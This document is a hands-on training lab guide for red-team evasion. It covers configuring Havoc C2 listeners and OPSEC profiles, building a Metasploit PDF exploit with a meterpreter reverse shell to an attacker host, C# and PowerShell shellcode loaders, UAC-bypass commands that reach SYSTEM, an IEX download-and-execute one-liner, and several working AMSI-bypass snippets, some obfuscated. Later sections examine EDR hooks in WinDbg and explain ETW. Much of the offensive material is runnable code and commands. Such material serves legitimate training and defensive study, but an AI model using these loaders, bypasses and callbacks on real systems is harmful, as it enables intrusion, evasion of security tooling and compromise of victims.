Intro : Threathunting Academy - Evasion

Welcome to the "Threathunting Academy - Evasion" this is the official lab guide that will guide you through the infrastructure. Students will all have their own Windows 10 client machine, a shared central Domain Controller and a Kali Red Team server and Forensics machine. All logs are centrally collected on and Ubuntu server running Elasticsearch and Kibana.
Havoc C2
With a phletora of attack frameworks available (https://howto.thec2matrix.com), the most important requirement is malleability/customizability. Commonly known frameworks such as metasploit, cobalt strike, Empire (Sartkiller GUI), Mythic C2 and sliver come to mind. In this training we'll be using a rather new, cobalt strike like framework called Havoc C2.

https://github.com/HavocFramework/Havoc?tab=readme-ov-file
Attack frameworks typically all consist of the following elements
-
Teamserver The central C2 server that receives C2 traffic from implants on its listeners (i.e.
LHOSTin metasploit), management connections from the client as well as it typically also hosts payloads. -
Client This is the operater console that connects to the teamserver and allows the adversary to manage listeners, malleable profiles, payloads and implants.
-
Implant, beacon, demon, ... This is the actual malicious code that communicates back over a C2 channel to the teamserver, very often this is primarily a stager/loader (a tiny program that will download the actual malicious code and typically inject it in to memory of a current or remote process.) - attack frameworks will provide a
payload generatorthat can build different types of payloads (Exe's, dll's, shellcode, etc...).
The most known is probably MSFVenom from the Metasploit Framework.

- C2 Redirectors We won't be using this in the lab, but in real world scenarios these functies as proxies between the victim and the team-server (It's easier to pop up a new proxy, than a completely new teams-server)
Havoc C2 is the framework we will be using in this training, however the techniques we'll be using can be utilized in each of beforementioned frameworks.
On Kali we can simply install Havoc C2 with the following command (this is already done)
apt install havoc
Creating a custom profile
Let's have a look at the custom profile we have created for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.
OPSEC HINT : Always customize your profiles as default profiles are almost often finger printed by AV/EDR.
sudo nano /opt/Havoc/profiles/custom.yaotl
This is the content of the custom.yoatl profile:
Teamserver {
Host = "0.0.0.0"
Port = 40056
Build {
Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
Nasm = "/usr/bin/nasm"
}
}
Operators {
user "Threatadmin" {
Password = "Threathunt25"
}
}
# demon setting.
Demon {
Sleep = 2
Jitter = 20
TrustXForwardedFor = false
Injection {
Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
}
Binary {
ReplaceStrings-x64 = {
"demon.x64.dll": "",
"This program cannot be run in DOS mode.": "",
}
}
}
Running the teamserver

havoc server --profile /opt/Havoc/profiles/custom.yoatl -v --debug
Running the client

In your terminal open a new tab, then run the following command:
havoc client
We can now log in to our teamserver using the user Threatadmin and the password whcih we defined in the custom Havoc C2 profile.

Let's start by setting up a listener:
https://havocframework.com/docs/profiles
In the Havoc GUI to to view and select listeners.

OPSEC HINT : Always customize your listeners by using valid user agents, also by using HTTPs we make sure our connections are harder to inspect. This is a nice website to generate user agents strings: https://useragents.io/parse/my-user-agent
Here's a regular chrome user agent from your windows machine:
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Let's add an HTTPs listener, click on Add and enter the listener configuration. Give the listener a name, select Https and past the user agent in the correct field. Click on Save
Make sure you select the correct IP addres (host) for your machine! You can double check by running ifconfig.


We can also add this to our Havoc profile, so that all these settings are applied when starting the team server. But before we do that, lets keep our OPSEC in mind, we need HTTPS - and we bettter not use the default SSL certificates, those might be signatured.
Let's create a self-signed SSL certifacate (PEM) and key file - Self signed certificates are of course not ideal - in a real world scenario we'd have them signed by a trusted PKI.
cd /opt/havoc/certs
openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
Output:

Let's copy the custom.yoatl profile to a new HTTPS template where we'll add the certs, user-agent, listener settings and so on
cd /opt/havoc/profiles
sudo cp custom.yoatl https.yoatl
sudo nano /opt/Havoc/profiles/custom.yaotl
This is the new content of the custom HTTPS.yoatl profile:
Teamserver {
Host = "0.0.0.0"
Port = 40056
Build {
Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc"
Nasm = "/usr/bin/nasm"
}
}
Operators {
user "Threatadmin" {
Password = "Threathunt25"
}
}
# HTTPS LISTENER AND CERTS
Listeners {
Http {
Name = "HTTPs Listener"
Hosts = ["10.0.0.7"]
#KillDate = "2006-01-02 15:04:05"
#WorkingHours = "8:00-17:00"
HostBind = "0.0.0.0"
PortBind = 443
PortConn = 443
HostRotation = "round-robin"
Secure = true
UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
Cert {
Cert = "/opt/havoc/certs/public.crt"
Key = "/opt/havoc/certs/private.key"
}
}
}
# demon setting.
Demon {
Sleep = 2
Jitter = 20
TrustXForwardedFor = false
Injection {
Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
Spawn32 = "C:\\Windows\\SysWOW64\notepad.exe"
}
Binary {
ReplaceStrings-x64 = {
"demon.x64.dll": "",
"This program cannot be run in DOS mode.": "",
}
}
}
Now close your Havoc Teamserver and client in terminal (control-c) and start the teamserver again with your new profile:
havoc server --profile /opt/havoc/profiles/https.yaotl -v --debug
Open a second tab in your terminal and run:
havoc client
On your windows machine when we browse with Chrome to the HTTPs listener (https://10.0.0.7:443), we'll now see our own custom self-signed certificate - one IOC less for AV/EDR to trigger on!

We'll create a vanilla demon payload as an executable, make sure all settings are like in the screenshot below (we'll go into the advanced evasion settings later on), save the payload in /opt/havoc/payloads directory:

On your windows machine use Chrome and got to http:\\YourKaliIP:9090\ and download the demon to C:\Temp (this is whitelisted in MS Defender)
(configure chrome to allow exe downloads, turn off smartscreen)




We can now interact with this implant by right-clicking the icon and selecting "Interact".


Havoc Modules
dotnet inline-execute execute
Inline - execute (BOF Loader!!!)
OPSEC Hint : When running the shell command, the process hosting your beacon/implant will spawn a child process, run the command and exit the child process. This is quite noisy compared to running everything in memory in the same process. Also command-line logging (eventlogs, sysmon and EDR's will log the commands.)
shell
shellcode
shellcode inject x64 6556 /opt/havoc/payloads/demon.x64.bin
Explain sacrificial process - advatages/disadvantages (command line logging, stability, patching, not touching other processes)
Chapter 1.1 - Metasploit Basics
Log on to your Unbuntu VM with admin/admin, open a terminal prompt and start the metasploit console:
msfconsole

We're going to create a malicious PDF file which contains a meterpreter backdoor that sets up a reverse shell on port 12345. This attack requires an exploit on Adobe PDF, let's have a look which exploits are available within Metasploit to accomplish this.
search type:exploit platform:windows adobe pdf

As you can see these are all pretty old exploits, but they will do for our proof on concept. There are numerous or PDF readers (such as Foxit, Slim PDF, Nitro and others). New vulnerabilities come out every day and this shows how important keeping your 3rd party applications up to date is.
For now we're going to continue with adobe_pdf_embedded_exe.
use exploit/windows/fileformat/adobe_pdf_embedded_exe
We're going to create a simple windows reverse TCP payload that will connect back to our Ubuntu server on Port 12345. This payload will be embedded into the pdf.
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
exploit

Next step is to set up metasploit to listen to reverse TCP connections on port 12345:

back
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.18.204
set LPORT 12345
run
Open a new terminal window on your Ubuntu and copy your "evil.pdf" payload to "/temp".
NOTE: Remember to do this as super user, the root directory requires admin privileges. You can do this by typing "sudo -i" and entering your password.

sudo -i
cd /root/.msfconsole/local/
ls -la
cp evil.pdf /temp
Now let's pivot to our Windows client and download the malicious PDF, we'll be using WinSCP - to transfer our "evil.pdf" from "/temp" to our windows desktop.
NOTE: Create a new Site in WinSCP, File Protocol = SCP, Port Number =22, Username = admin, Password = admin. In the advanced options you can specify the default starting direcotry, put "/temp" there. Save the connection for later use. Connect to the Ubuntu manchine with WinSCP and download "evil.pdf" to your desktop.

Once the file is copied to your desktop, right-click the evil.pfd file and select open with "Adobe Reader 9.0". Remember we are using an old version of adobe that is still vulnerable for this exploit.




Shellcode
What is Shellcode
**What is AMSI/Dotnet (managed/unmanaged code)**
The .NET Framework provides the Assembly.Load method which allows loading Common Object
File Format (COFF) images like such as DLL’s and EXE’s. Assembly.Load can be supplied
with a file path to load a DLL from disk, or with a byte array to load directly in memory.
Threatcheck/AMSI Trigger
ClamAV
dotpeek/hexdump --canonical
strings -n 5
Shelcode formats (shellcode formatter etc)
On Windows:
csc.exe (CSharp/dotnet)
c:\windows\Microsoft.NET\Framework\v3.5\bin\csc.exe /t:exe /out:loader.exe loader.cs
csc.exe /t:exe /out:$utilName /unsafe $katzPath
msbuild.exe (CSharp, C++)
msbuild buildapp.csproj -t:HelloWorld
msbuild mimidogz.sln /t:Build /p:Configuration=Release /p:Platform=x64
@echo off
set msBuildExe="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe"
set solutionsFile="C:\TestProject\mySln.sln"
rem Build the solutions:
%msBuildExe% /t:Build /p:Configuration=Release /p:Platform=x64 %solutionsFile%
CL.exe (C)
Developer Prompt Visual Studio
cl.exe hello.c /out:hello.exe /exe
git clone https://github.com/gentilkiwi/mimikatz.git
cl.exe /Zi /I inc\ mimikatz\modules\misc\kuhl_m_misc_citrix.c modules\kull_m_kernel.c
modules\kull_m_memory.c modules\kull_m_minidump.c modules\kull_m_output.c
modules\kull_m_process.c modules\kull_m_string.c lib\x64\ntdll.min.lib
/link kernel32.lib user32.lib advapi32.lib shell32.lib crypt32.lib rpcrt4.lib vcruntime.lib ucrt.lib
/entry:kuhl_m_misc_citrix_logonpasswords
/subsystem:console
Chapter 1.2.1 - Functions
learn.micorosoft.com
WIN32 api functions (slides)
Api monitor
using System;
using System.Diagnostics;
using System.Linq;
class Program
{
static void Main()
{
// Buffer with our shellcode
byte[] shellCode;
shellCode = new byte[]
{
0xfc,0xfc
};
Console.Clear();
Console.Write("Shellcode: ");
foreach (byte b in shellCode)
{
Console.Write($"0x{b:X2}, "); // X2 formats as two-character uppercase hex
}
Console.WriteLine(); // To add a newline at the end
Console.WriteLine(); // To add a newline at the end
// Find the process with the name "explorer"
var explorerProcess = Process.GetProcessesByName("explorer").FirstOrDefault();
if (explorerProcess != null)
{
Console.WriteLine($"Process ID of explorer.exe: {explorerProcess.Id}");
}
else
{
Console.WriteLine("explorer.exe not found.");
}
Console.WriteLine(); // To add a newline at the end
// Wait for any key to be pressed
Console.WriteLine("Press any key to stop...");
Console.ReadKey();
}
}
Lab 1.1 - Payloads
Lab - Shellcode
OPSEC HINT : Let's apply some basic best practices when we compile the following code
- add and icon file to the dotnet app.
- add metadata
- compile with CSC
When compiling the dotnet code you can specify the .net version
We'll need the .Net Developer Pack 4.8, let's see if it is installed:
reg query "HKLM\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full" /v Version
CSC.exe is located in "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe"
HINT : Remember that AMSI will behave differently with .net assemblies than it would when using powershell scripts. In a powershell script amsi.?dll is automatically loaded into powershell, with dotnet assemblies AMSI will interact with the CLR on demand.
Let's generate a Havoc shellcode payload (on KALI using the Havoc GUI):
Switch to your windows and under "C:\THEV\Labs\LocalLoader" you'll find a csharp solution file - open that with Visual Studio 2022.
We'll now build our own custom (but very basic) shellcode loader in CSHARP (= dotnet assembly).
using System;
using System.Runtime.InteropServices;
namespace ShellcodePayload
{
class Payload
{
[DllImport("kernel32.dll")]
private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);
[DllImport("kernel32.dll")]
private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
[DllImport("kernel32.dll")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
static void Main()
{
// (1) insert our shellcode
byte[] shellCode = new byte[] { /* insert shellcode here */ };
// (2) allocate memory for shellcode
UInt32 MEM_COMMIT = 0x1000;
UInt32 PAGE_EXECUTE_READWRITE = 0x40;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
// (3) inject shellcode into allocated memory
Marshal.Copy(shellCode, 0, funcAddr, shellCode.Length);
// (4) execute injected shellcode
UInt32 threadId = 0;
IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
}
}
}
To monitor AMSI (Antimalware Scan Interface) calls and see what is being scanned, you would need to hook into the AMSI functions. This is a more advanced technique and typically involves using a debugger or writing a custom DLL to intercept AMSI calls. Below is an example of how you might achieve this using PowerShell and C# to create a custom DLL that hooks into AMSI functions.
First, create a C# DLL to hook AMSI functions:
using System;
using System.Runtime.InteropServices;
public class AmsiHook
{
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr LoadLibrary(string lpFileName);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
private static IntPtr amsiScanBufferPtr;
private static AmsiScanBufferDelegate originalAmsiScanBuffer;
private delegate int AmsiScanBufferDelegate(IntPtr amsiContext, IntPtr buffer, uint length, string contentName, IntPtr amsiSession, out int result);
public static void HookAmsi()
{
IntPtr amsiDll = LoadLibrary("amsi.dll");
if (amsiDll == IntPtr.Zero)
{
throw new Exception("Failed to load amsi.dll");
}
amsiScanBufferPtr = GetProcAddress(amsiDll, "AmsiScanBuffer");
if (amsiScanBufferPtr == IntPtr.Zero)
{
throw new Exception("Failed to get AmsiScanBuffer address");
}
uint oldProtect;
VirtualProtect(amsiScanBufferPtr, (UIntPtr)IntPtr.Size, 0x40, out oldProtect);
originalAmsiScanBuffer = (AmsiScanBufferDelegate)Marshal.GetDelegateForFunctionPointer(amsiScanBufferPtr, typeof(AmsiScanBufferDelegate));
Marshal.WriteIntPtr(amsiScanBufferPtr, Marshal.GetFunctionPointerForDelegate(new AmsiScanBufferDelegate(HookedAmsiScanBuffer)));
VirtualProtect(amsiScanBufferPtr, (UIntPtr)IntPtr.Size, oldProtect, out oldProtect);
}
private static int HookedAmsiScanBuffer(IntPtr amsiContext, IntPtr buffer, uint length, string contentName, IntPtr amsiSession, out int result)
{
byte[] managedBuffer = new byte[length];
Marshal.Copy(buffer, managedBuffer, 0, (int)length);
Console.WriteLine("AMSI Scan Buffer: " + BitConverter.ToString(managedBuffer));
return originalAmsiScanBuffer(amsiContext, buffer, length, contentName, amsiSession, out result);
}
}
Next, compile the C# code into a DLL:
csc /target:library /out:C:\git\code\amsidll\AmsiHook.dll C:\git\code\amsidll\AmsiHook.cs
Then, create a PowerShell script to load the DLL and hook AMSI functions:
Add-Type -Path "C:\git\code\amsidll\AmsiHook.dll"
# Hook AMSI functions
[AmsiHook]::HookAmsi()
# Your shellcode loader script
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode
# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)
Write-Output "Allocated $($shellcode.Length) bytes of memory at address: $mem"
# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)
Write-Output "Copied shellcode to memory at address: $mem"
# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])
Write-Output "Created thread to execute shellcode at address: $mem"
# Start the thread
$thread.Invoke()
Write-Output "Started thread to execute shellcode"
# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
Write-Output "Thread is running, waiting for it to exit (optional)"
This script will hook into the AMSI functions and print the buffer being scanned by AMSI. Note that this is a simplified example and may require additional error handling and adjustments for a production environment.
Lab 1.3 - Basic Loader
Generate havoc shellcode
Convert the shellcode to a CSharp array:
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
Load this shellcode into you basic loader template:
Lab 1.4 - Remote Loader
Chapter 0.1 - Windows Defender / MDE (EDR)
   
https://www.edr-telemetry.com/windows.html
Powershell
AMSI Invoke-Obfuscastion powershell shellcode loader (without amsi bypass)
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode
$code = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
[DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll", SetLastError=true)] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
}
"@
Add-Type -TypeDefinition $code
# Allocate memory
$mem = [Win32]::VirtualAlloc([IntPtr]::Zero, $shellcode.Length, 0x3000, 0x40)
# Copy shellcode to memory
[Win32]::memcpy($mem, $shellcode, $shellcode.Length)
# Create thread to execute shellcode
$thread = [Win32]::CreateThread([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
# Wait for thread to exit (optional)
[System.Runtime.InteropServices.Marshal]::WaitForSingleObject($thread, 0xFFFFFFFF)
Shorter version:
$shellcode = @(0x90,0x90,0x90,0x90) # Replace with your shellcode
# Allocate memory
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($shellcode.Length)
# Copy shellcode to memory
[System.Runtime.InteropServices.Marshal]::Copy($shellcode, 0, $mem, $shellcode.Length)
# Create thread to execute shellcode
$thread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($mem, [System.Threading.ThreadStart])
# Start the thread
$thread.Invoke()
# Wait for thread to exit (optional)
[System.Threading.Thread]::Sleep(-1)
UAC - User Account Control (Privilege Escalation)
MITRE Reference

Demo with cmd.exe -> medium level even if admin runas show whoami / groups show system informer
start beacon as unprivileged user
whoami groups
sudo apt install mingw-w64 -y
git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
In Havoc -> Script Manager Load .py
Set Sleep to 10
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
Priv Esc.
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
AMSI (Anti-Malware Scanning Interface)
WARNING : Amsi loads into powershell, with dotner amsi integrates with the clr which loads AMSI on demand.
AmsiScanBuffer AmsiScanString AssemblyLoad
Show api calls made (user to kernel/syscall)
Languages
- powershell (scripting)
- vb.net (scripting)
- c# (compiled)
- f# (compiled)

AMSI
Introduced in June 2015.
The Windows Antimalware Scan Interface (AMSI) is a versatile interface standard that allows your applications and services to integrate with any antimalware product that's present on a machine. AMSI provides enhanced malware protection for your end-users and their data, applications, and workloads.
AMSI is agnostic of antimalware vendor; it's designed to allow for the most common malware scanning and protection techniques provided by today's antimalware products that can be integrated into applications. It supports a calling structure allowing for file and memory or stream scanning, content source URL/IP reputation checks, and other techniques.
The AMSI feature is integrated into these components of Windows 10:
- User Account Control, or UAC (elevation of EXE, COM, MSI, or ActiveX installation)
- PowerShell
v5(scripts, interactive use, and dynamic code evaluation) - Windows Script Host (Wscript.exe and Cscript.exe) (scripts and dynamic
- Office365 (JavaScript/VBA)
- Windows Management Instrumentation (WMI)
- .Net Framework 4.8 (Scanning for all assemblies) - NEW
Runtime – Antimalware Scanning for All Assemblies : In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/
.NET Framework 4.8 on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
In its default configuration, macros are scanned at runtime via AMSI except in the following scenarios:
- Documents opened while macro security settings are set to “Enable All Macros”
- Documents opened from trusted locations
- Documents that are trusted documents
- Documents that contain VBA that is digitally signed by a trusted publisher
https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps
Runtime – Antimalware Scanning for All Assemblies In previous versions of .NET Framework, Windows Defender or third-party antimalware software would automatically scan all assemblies loaded from disk for malware. However, assemblies loaded from elsewhere, such as by using Assembly.Load(byte[]), would not be scanned and could potentially carry viruses undetected.
.NET Framework 4.8 (released April 18th on Windows 10 triggers scans for those assemblies by Windows Defender and many other antimalware solutions that implement the Antimalware Scan Interface. We expect that this will make it harder for malware to disguise itself in .NET programs.
LINK : https://devblogs.microsoft.com/dotnet/announcing-net-framework-4-8-early-access-build-3694/
LINK : https://en.wikipedia.org/wiki/.NET_Framework_version_history

Supported OS
- Windows 10 PRO/ENTERPRISE and Windows Server 2016
- Windows Server 2019
Supported 3rd party Antivirus/EDR vendors
- Windows Defender
- Carbon Black Defense
- Crowdstrike Falcon
- Kaspersky
- McAfee Endpoint Security 10.6.0
- Sophos
- Symantec (v14.3 and later)
LINK : https://github.com/subat0mik/whoamsi
To check which version of .net and the CLR is installed open a powershell prompt and type the following:
$psversiontable
[System.Reflection.Assembly]::GetExecutingAssembly().ImageRuntimeVersion
$dotnet = [System.Reflection.Assembly]::Load("mscorlib")
$dotnet.GetName().Version

Check Powershell installed on the system:
(Get-ItemProperty HKLM:\SOFTWARE\Microsoft\PowerShell\*\PowerShellEngine -Name PowerShellVersion).PowerShellVersion
AMSITEST
It '"Antimalware Scan Interface" is working' {
# AMSI test string 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
# (in the following as an obfuscated string)
# must throw an error if executed (blocked by AMSI)
$TestString = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
$Bytes = [Convert]::FromBase64String($TestString)
$String = -join ($bytes | ForEach-Object { [char]($_ -bxor 0x33)})
{ Invoke-Expression -Command $String } | Should Throw
}
AMSIBYPASS
Works on 1803 and before
This bypass does not require administrator rights!!!
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic, Static').SetValue($null,$true)
Works on 1903, 1909 and before
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c, ' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
List dirty words:
[ScriptBlock].GetField('signatures', 'NonPublic, Static').GetValue($null)
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Patch-the-providers-DLL-of-Microsoft-MpOav.dll
check which processes have amsi.dll loaded
Get-Process | where {$_.modules.ModuleName -eq 'Amsi.dll'}
Los er door:
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
And finally AMSI.FAIL
dotnet packing
ConfuserEx Babel
https://github.com/pracsec/AmsiScanner/tree/main/src
Hooks (User land)

HookChecker mr. Un1c0d3r
dump exported funtions ntdll.dll kernelbase.dll kernel32.dll
command prompt visual studio 2022
dumpbin.exe /exports file.dll
Screenshot IDA JUMP
https://github.com/Almorabea/HookSweeper
https://github.com/Mr-Un1k0d3r/EDRs Hook_finder64.exe
https://github.com/asaurusrex/Probatorum-EDR-Userland-Hook-Checker compile in visual studio
Bitdefender install -> 102 fnctions hooked
windgb: u NtOpenProcess !chkimg ntdll needs symbols in windbg .sympath srv*https://msdl.microsoft.com/download/symbols !sym noisy;.reload /f /v
u NtReadVirtualMemory
ntdll!NtReadVirtualMemory:
00007ffd`3ef0dcc0 e95b331600 jmp 00007ffd`3f071020
00007ffd`3ef0dcc5 cc int 3
00007ffd`3ef0dcc6 cc int 3
00007ffd`3ef0dcc7 cc int 3
00007ffd`3ef0dcc8 f604250803fe7f01 test byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
00007ffd`3ef0dcd0 7503 jne ntdll!NtReadVirtualMemory+0x15 (00007ffd`3ef0dcd5)
00007ffd`3ef0dcd2 0f05 syscall
00007ffd`3ef0dcd4 c3 ret
then look at the jump address and disassemble:
u 00007ffd`3f071020
00007ffd`3f071020 36363636488da42400ffffff lea rsp,ss:[rsp-100h]
00007ffd`3f07102c 363648898c2438ffffff mov qword ptr ss:[rsp-0C8h],rcx
00007ffd`3f071036 48b9700da2cdf47d0000 mov rcx,7DF4CDA20D70h
00007ffd`3f071040 ff1522000000 call qword ptr [00007ffd`3f071068]
00007ffd`3f071046 9c pushfq
00007ffd`3f071047 48f78424f8feffffffffffff test qword ptr [rsp-108h],0FFFFFFFFFFFFFFFFh
00007ffd`3f071053 740a je 00007ffd`3f07105f
00007ffd`3f071055 9d popfq
call qword ptr [00007ffd3f071068]: This is a crucial instruction. It's acallto an address stored in memory at00007ffd3f071068. This is almost certainly a call to the actual hook function – the code that performs the custom actions. The address 00007ffd3f071068` is acting as a pointer to the hook function.
Examine 00007ffd3f071068: Usedq 00007ffd3f071068 in WinDbg to see what value is stored at that address. This is the address of the actual hook function.
dq 00007ffd3f071068
00007ffd`3f071068 00007df4`cda31000 cccccccc`cccccccc
00007ffd`3f071078 cccccccc`cccccccc 24a48d48`36363636
00007ffd`3f071088 89483636`ffffff00 b948ffff`ff38248c
00007ffd`3f071098 00007df4`cda20dc0 489c0000`002215ff
00007ffd`3f0710a8 fffffffe`f82484f7 36369d0a`74ffffff
00007ffd`3f0710b8 9dfffffe`f024a4ff cccccccc`ccccccc3
00007ffd`3f0710c8 00007df4`cda31000 cccccccc`cccccccc
00007ffd`3f0710d8 cccccccc`cccccccc 24a48d48`36363636
The important part is 00007df4cda31000. This is the address where the real hook function is located. The rest of the output (cccccccc...) is just filler (oftenccrepresents anint 3` instruction, a common breakpoint or padding value).
Next step:
Now that you have the address of the actual hook function (00007df4cda31000), you need to disassemble it to understand what it's doing.
u 00007df4`cda31000
00007df4`cda31000 9c pushfq
00007df4`cda31001 48f705f4efffffffffffff test qword ptr [00007df4`cda30000],0FFFFFFFFFFFFFFFFh
00007df4`cda3100c 7515 jne 00007df4`cda31023
00007df4`cda3100e 9d popfq
00007df4`cda3100f 488b4910 mov rcx,qword ptr [rcx+10h]
00007df4`cda31013 48894c24f8 mov qword ptr [rsp-8],rcx
00007df4`cda31018 488b8c2440ffffff mov rcx,qword ptr [rsp-0C0h]
00007df4`cda31020 c20001 ret 100h
!address 00007df4`cda30000
Usage: <unknown>
Base Address: 00007df4`cda30000
End Address: 00007df4`cda31000
Region Size: 00000000`00001000 ( 4.000 kB)
State: 00001000 MEM_COMMIT
Protect: 00000002 PAGE_READONLY
Type: 00020000 MEM_PRIVATE
Allocation Base: 00007df4`cda30000
Allocation Protect: 00000002 PAGE_READONLY
Content source: 1 (target), length: 1000
ETW - Event Tracing for Windows (Kernel mode)
TL;DR ETW basically is a kernel level debug logging mechanism in Windows - it allows to gather advanced telemetry about functions being called. Windows Even Logs contain a subset of ETW events. Typically used by application developers to debug programs, but has found its way as a telemetry source for EDR's.
Event Tracing for Windows (ETW) is a high speed tracing facility built into Windows. Using a buffering and logging mechanism implemented in the operating system kernel, ETW provides an infrastructure for events raised by both user mode (apps) and kernel mode components (drivers). ETW can be used for system and app diagnosis, troubleshooting, and performance monitoring.
 https://learn.microsoft.com/en-us/windows-hardware/test/weg/instrumenting-your-code-with-etw
Provider A provider is an instrumented component that generates events. A provider can be a user mode app, a kernel mode driver, or the Windows kernel itself. In addition to fixed event data (header), an event can carry user data.
An event is an event-based representation of data. The data can be used for in-depth analysis. An event can also be used to produce counters. Counters provide a sample-based view of data. They typically contain a small set of data to show current state, for example I/O bytes per second and interrupts per second.
A provider must register with ETW and send events by calling the ETW Logging APIs. Providers register a callback function for enable and disable notifications so that tracing can be enabled and disabled dynamically.
Session The ETW session infrastructure works as an intermediate broker that relays the events from one or more providers to the consumer. A session is a kernel object that collects events into kernel buffer and sends them to a specified file or real-time consumer process. Multiple providers can be mapped to a single session, which allows users to collect data from multiple sources.
Controller A controller starts, stops, or updates a trace session. A session is a unit for tracing. Providers are mapped (or enabled) to a specific session. A controller enables and disables providers so that they can start sending events to ETW. Controller functionalities can be invoked with tools provided by Microsoft or you can write your own app.
Logman.exe is an in-box controller app. Windows Performance Recorder (WPR) in the Windows Performance Toolkit is the recommended controller process.
